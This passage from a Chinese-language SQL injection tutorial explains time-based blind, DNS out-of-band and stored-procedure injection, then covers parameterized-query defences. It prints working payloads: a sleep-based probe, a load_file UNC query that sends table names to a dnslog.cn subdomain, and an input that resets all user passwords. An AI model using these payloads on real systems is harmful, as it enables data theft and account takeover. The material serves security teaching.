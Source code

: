 <pre><code class="language-sql">SELECT * FROM products WHERE id_product=$id_product

# http://www.example.com/product.php?id_product=10 AND IF(version() like ‘5%’, sleep(10), ‘false’))--
</code></pre>
<p>在这个例子中，攻击者先检查MySQL的版本是否为5，如果判断为真，则让服务器延时十秒返回结果。</p>
<h3 id="dns带外注入">DNS带外注入</h3>
<p>在盲注的情况下，假设应用程序是异步执行的，也就是说，应用程序需要在原始线程处理用户的请求，并同时在另一个线程使用跟踪cookie执行SQL查询，这样我们刚才提到的注入方法都会失效。这时如果我们想要成功进行注入，可以尝试使用DNS带外注入。</p>
<p>在了解DNS带外注入前，我们需要一点点前置知识，就是泛域名解析。那么什么是泛域名解析呢，其实很简单，就是*.的所有域名解析到同一IP，举个例子，talentsec.cn指向了一个IP，在使用了泛域名解析技术的情况下，test.talentsec.cn也会指向同一个IP地址。</p>
<p>DNS带外注入，是使用不同通道检索数据的技术（例如，建立 HTTP 连接将结果发送到 Web 服务器等）。这个方法使用DBMS的功能，执行带外连接，并将注入查询的结果作为请求的一部分传递给攻击者。和报错注入类似，每个数据库管理系统有自己独有的功能函数，我们需要确认数据库管理系统的信息。下面就是一个DNS带外注入的示例：</p>
<pre><code class="language-sql">SELECT * FROM products WHERE id_product=$id_product

#http://www.example.com/product.php?id_product=10 and load_file(concat('\\\\',(select table_name from information_schema.tables where table_schema='security' limit 0,1),".afl3zg.dnslog.cn\\aa.txt")) --+
</code></pre>
<p>该<code>payload</code>使用了<code>loadfile</code>函数，该函数在这里可以通过<code>UNC</code>路径读取远程机器上的文件。它的参数是用<code>concat</code>函数拼接起来的<code>UNC</code>路径，由于<code>\</code>代表了转义的意思，所以实际拼接为<code>\\{query_result}.af13zg.dnslog.cn\aa.txt</code>，其中<code>{query_result}</code>为查询的结果，根据<strong>泛域名解析原理</strong>，该请求会被<code>afl3zg.dnslog.cn</code>记录下来。<code>afl3zg.dnslog.cn</code>是在<a href="http://www.dnslog.cn" target="_blank">DNSLog Platform</a>上面生成的一个域名，我们可以借助它来观察到外带的结果。域名生成之后，点击刷新记录，就可以显示出它接收到的访问信息，其中就包括了我们的查询结果。</p>
<h3 id="存储过程注入">存储过程注入</h3>
<p>在存储过程中，如果应用系统使用和用户交互式的SQL输入，程序就必须考虑注入风险。开发人员需要严格判断用户输入的合法性，以消除代码注入的风险。如果风险不清理，存储过程就可能会被用户输入的恶意代码污染。</p>
<p>下面这段代码，是存储过程注入示例：</p>
<pre><code class="language-sql">Create
procedure get_report @columnamelist varchar(7900)
As
Declare @sqlstring varchar(8000)
Set @sqlstring  = 'Select * ' + @columnamelist + ' from ReportTable'
exec(@sqlstring)
Go
</code></pre>
<p>如果用户输入：</p>
<pre><code class="language-sql">from users; update users set password = ‘password’; select *
</code></pre>
<p>上述代码会把用户的输入赋值给<code>@sqlstring</code>，在之后的存储过程中执行，导致所有用户的密码更改为<code>password</code>。</p>
<h2 id="如何防御">如何防御</h2>
<p>虽然SQL注入攻击方式多变，但是在防御角度确有一种“以不变应万变”的防御方案。</p>
<p><strong>使用参数化查询（预编译）代替字符串连接查询，可以避免</strong><strong>绝大多数的SQL注入类安全风险。</strong>这种方法的实现原理其实很简单，采用参数化查询的SQL语句会预先编译好，SQL引擎会预先进行语法分析、产生语法树以及生成执行计划，经过这些预处理，后面无论输入什么，都只会被当作字符串字面值参数，并不会影响SQL的语法结构，因此是一种优秀的SQL注入防御方案。</p>
<p>比如以下代码，采用了字符串拼接查询，因此很容易受到SQL注入攻击：</p>
<pre><code class="language-java">String query = "SELECT account_balance FROM user_data WHERE user_name = " + request.getParameter("customerName");
try {
    Statement statement = connection.createStatement( ... );
    ResultSet results = statement.executeQuery( query );
}
</code></pre>
<p>通过如下参数化查询的优化方案，该代码就可以有效避免用户输入干扰查询结构：</p>
<pre><code class="language-java">String custname = request.getParameter("customerName");
String query = "SELECT account_balance FROM user_data WHERE user_name = ?";
PreparedStatement pstmt = connection.prepareStatement( query );
pstmt.setString(1, custname);
ResultSet results = pstmt.executeQuery();
</code></pre>
<p><strong>存储过程中也存在SQL注入的安全问题，我们可以在存储过程中，用标准存储过程编程构造</strong>。它的效果类似于参数化查询，它要求开发人员只构建带有自动参数化参数的SQL语句。存储过程的SQL代码是在数据库本身定义和存储的，然后在应用程序中调用。</p>
